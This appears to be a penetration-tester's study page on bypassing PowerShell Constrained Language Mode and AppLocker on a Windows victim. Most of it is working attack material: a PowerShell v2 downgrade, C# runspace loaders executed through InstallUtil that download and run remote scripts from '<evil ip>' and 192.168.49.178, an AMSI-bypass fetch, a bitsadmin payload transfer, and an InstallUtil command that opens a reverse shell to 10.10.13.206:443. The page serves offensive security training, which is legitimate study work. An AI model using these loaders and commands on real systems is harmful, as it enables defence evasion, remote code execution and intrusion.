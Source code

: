# You have no Power(Shell) here muahaha

![](../Assets/abraxas-lotr.gif)

Alright you are in. You run the below command to check if you can Powershell

```powershell
$ExecutionContext.SessionState.LanguageMode
```

![](../Assets/clm.png)

## Quick Explanation on CLM

- CLM is activated when AppLocker is active against script execution
- Under CLM, any scripts in whitelisted locations or complying with whitelisting rules execute with no restrictions
- However, if a script does not comply with the rules or commands are entered directly on the command line, there are restrictions on calls on .NET, C# execution and reflection

## Bypassing CLM - Downgrading to PowerShell V2

PowerShell V2 lacks AMSI and all the fancy protective measures that came after it.
If the victim is Windows 10 and above, this will likely not work since the .NET Framework v2 is not included by default and thus you can't run PowerShell v2.

But just in case there is PowerShell V2

```cmd
powershell.exe -Version 2.0 -Command {<scriptblock>} -ExecutionPolicy <ExecutionPolicy>
```

## Bypassing CLM - Custom Runspaces

- Executing powershell without using Powershell.exe which can bypass AppLocker restrictions on Powershell.exe
- As this will be compiled as an executable, we can abuse InstallUtil to execute our bypass
- Compile this as a C# Console App (.NET Framework) on Visual Studio

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
	class Program
	{
		static void Main(string[] args)
		{
			Console.WriteLine("This is the main method which is a decoy");
		}
	}
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            // change the command to whatever you want. Do note that the Out-File seems to be required in order to read the output because there doesnt seem to be any output to console
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<evil ip>/powerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";
            // String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<evil ip>/lapstoolkit.ps1') | IEX; Get-LAPSComputers | Out-File -FilePath C:\\Tools\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

Once compiled, you can use bitsadmin to download the executable onto the victim
For some reason, python http.server dont seem to gel well with bitsadmin. So host the file on an apache2 server

myJob is just a name. Can name it anything you want

```cmd
bitsadmin /Transfer myJob http://<evil ip>/file.txt <output path>
```

Search for InstallUtil (may not be on PATH) on the Windows system
```cmd

dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\evil.exe
```

## Bypassing CLM - Open Source Tools

There are at least two tools I found recommended by OffSec Student Mentors in the Discord channel. Seems to work fine and obviously a lot easier!

### Tool 1 : PSByPassCLM

https://github.com/padovah4ck/PSByPassCLM

**Usage**

Fairly simple. Compile the C# code. Transfer to victim and use InstallUtil to execute it. You can also rename your executable to any file format as InstallUtil parses everything

There are two broad modes:

1) Create a "PowerShell Session"

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

2) Reverse Shell

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

### Tool 2: Bypass-CLM

https://github.com/calebstewart/bypass-clm/tree/master





```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;
 
namespace test
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }
 
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.178/amsi.txt') | IEX;";
            String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.178/lapstool.txt') | IEX; Get-LAPSComputers | Out-File -FilePath C:\\windows\\tasks\\output.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            Console.WriteLine("I know your IP Address...");
 
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd1);
            try
            {
                ps.Invoke();
                Console.WriteLine("A*M*S*1 bYP@$S!");
            }
            catch (Exception e)
            {
                Console.WriteLine("{0} Exception caught.", e);
            }
            ps.AddScript(cmd2);
            try
            {
                ps.Invoke();
                Console.WriteLine("Welcome...Master H@X0r! 13E7!");
            }
            catch (Exception e)
            {
                Console.WriteLine("{0} Exception caught.", e);
            }
            rs.Close();
        }
    }
}
```